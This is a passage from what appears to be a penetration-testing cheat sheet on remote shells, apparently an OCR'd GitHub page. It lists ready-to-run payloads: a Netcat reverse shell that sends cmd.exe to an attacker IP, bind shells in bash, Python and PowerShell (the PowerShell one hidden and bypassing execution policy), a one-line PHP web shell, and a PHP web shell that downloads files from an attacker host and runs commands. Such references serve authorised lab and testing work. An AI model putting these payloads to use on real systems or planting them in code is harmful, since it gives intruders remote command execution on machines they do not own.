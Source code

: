 **Netcat for Windows**

```cmd
nc.exe -e cmd.exe 10.10.14.137 4444
```

### Bind Shells

Bind shells open a listening port on the target, waiting for the attacker to connect.

#### Linux Bind Shell

```bash
# Create bind shell
rm -f /tmp/f; mkfifo /tmp/f; cat /tmp/f | /bin/bash -i 2>&1 | nc -l 10.129.41.200 7777 > /tmp/f

# Connect to bind shell
nc -nv 10.129.41.200 7777
```

#### Python Bind Shell

```python
python -c 'exec("""import socket as s,subprocess as sp;s1=s.socket(s.AF_INET,s.SOCK_STREAM);s1.setsockopt(s.SOL_SOCKET,s.SO_REUSEADDR, 1);s1.bind(("0.0.0.0",1234));s1.listen(1);c,a=s1.accept();\nwhile True: d=c.recv(1024).decode();p=sp.Popen(d,shell=True,stdout=sp.PIPE,stderr=sp.PIPE,stdin=sp.PIPE);c.sendall(p.stdout.read()+p.stderr.read())""")'
```

#### PowerShell Bind Shell

```powershell
powershell -NoP -NonI -W Hidden -Exec Bypass -Command $listener = [System.Net.Sockets.TcpListener]1234; $listener.start(); $client = $listener.AcceptTcpClient(); $stream = $client.GetStream(); [byte[]]$bytes = 0..65535|%{0}; while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0) { $data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i); $sendback = (iex $data 2>&1 | Out-String ); $sendback2 = $sendback + 'PS ' + (pwd).Path + '> '; $sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2); $stream.Write($sendbyte,0,$sendbyte.Length); $stream.Flush()}; $client.Close(); $listener.Stop()
```

### Web Shells

Web shells execute commands via HTTP requests, useful when direct connections are blocked.

#### PHP Web Shell

```php
<?php system($_GET['cmd']); ?>
```

Access via: `http://target.com/shell.php?cmd=whoami`

#### PHP File Upload Shell

```php
<?php
if (isset($_REQUEST['upload'])) {
    file_put_contents($_REQUEST['upload'], file_get_contents("http://10.10.14.137/" . $_REQUEST['upload']));
};
if (isset($_REQUEST['cmd'])) {
    system($_REQUEST['cmd']);
}
?>
```
